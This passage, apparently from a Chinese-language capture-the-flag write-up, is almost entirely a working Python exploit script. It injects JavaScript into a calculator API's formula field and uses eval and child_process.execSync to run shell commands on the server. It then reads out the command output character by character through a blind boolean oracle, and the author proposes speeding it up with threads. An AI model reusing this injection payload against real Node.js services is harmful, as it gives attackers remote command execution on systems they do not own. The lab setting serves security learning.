 首先，按照这个思路，写出脚本的雏形

```python
import string
import requests
from tqdm import tqdm

url = "http://94.237.57.18:58093/api/calculate"

proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080",
}

command = "whoami"
res = ""


for i, _ in enumerate(iter(bool, True)):
    res_flag = False
    for chr in string.printable:
        # print(chr)
        payload = (
            "(function (x) { return `${eval(\"if(global.process.mainModule.constructor._load('child_process').execSync('"
            + command
            + "').toString().charCodeAt("
            + str(i)
            + ") == "
            + str(ord(chr))
            + ') {25} else {1}")}` })()'
        )

        data = {"name": "123", "formula": payload}
        # print(payload)
        r = requests.post(url, json=data, proxies=proxies)

        if "Passed" in r.text:
            res_flag = True
            res += chr
            print(res)

            if chr == "}":
                quit()

            break
    if not res_flag:
        break
print("Attack finished")
```

能跑，但是太慢了，尝试使用多线程进行优化
